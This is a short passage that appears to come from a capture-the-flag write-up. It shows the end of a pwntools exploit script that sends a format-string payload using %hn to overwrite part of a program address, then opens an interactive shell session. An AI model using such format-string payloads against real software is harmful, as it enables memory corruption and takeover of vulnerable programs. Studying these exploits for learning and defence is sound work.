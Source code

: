 ```
p.sendlineafter(b'something: ', f'%{(exe.address + 0x360) & 0xffff}c%38$hn')
p.sendlineafter(b'> ', b'y' )

p.interactive()


```




 

